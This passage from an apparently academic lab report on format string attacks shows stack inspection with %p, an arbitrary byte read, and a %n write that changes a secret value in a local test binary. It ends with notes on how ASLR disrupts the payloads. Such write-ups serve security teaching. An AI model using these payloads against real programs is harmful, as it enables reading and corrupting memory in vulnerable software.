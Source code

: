 \begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Stack inspection to find the start of user\_input},
label={lst:l1_t2_insp},
language=,
frame=single]
...
Please enter a string
RIPPAAAA,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
RIPPAAAA,0xbffff678,0x8,0xb7eb8309,0xbffff69f,0xbffff69e,
(nil),0xbffff784,0xbffff724,0x804b020,0x50504952,0x41414141,
0x2c70252c,0x252c7025,0x70252c70,0x2c70252c,0x252c702
...
\end{lstlisting}
\end{minipage}

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Little-endian conversion and reading one byte},
label={lst:l1_t2_le_pb},
language=,
frame=single]
echo -e '\x24\xb0\x04\x08<%10$.1s>' | ./formatstr-no-int-root
...
$<U>
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
\end{lstlisting}
\end{minipage}

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Setting secret{$[1]$} to 0x77},
label={lst:l1_t2_le_pcd},
language=,
frame=single]
echo -e '\x24\xb0\x04\x08%119.0s%10$n' | ./formatstr-no-int-root
...
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x77
\end{lstlisting}
\end{minipage}

\subsection{Task 3: ASLR and Automation}
\subsubsection{Part (a) Redo Task 2 with ASLR turned on}
When address randomisation is turned on, we observe that bytes such as tab (\emph{0x09}) and spaces (\emph{0x20}), amongst a number of others, are now becoming part of the address of secret[1]. These bytes cause \emph{scanf()} to break the input, preventing the payloads from working for certain addresses.

To circumvent this, we need a new method of setting an arbitrary address that does not involve escaped bytes. One possibility is the "space-generator" payload, "\%$<$val$>$.0s", followed by a \emph{\%n}. Unfortunately, this took a long time as the terminal kept on printing spaces to the size of the target address (hundreds of millions). We have more ideas in mind but due to time constraints, these have not been implemented.

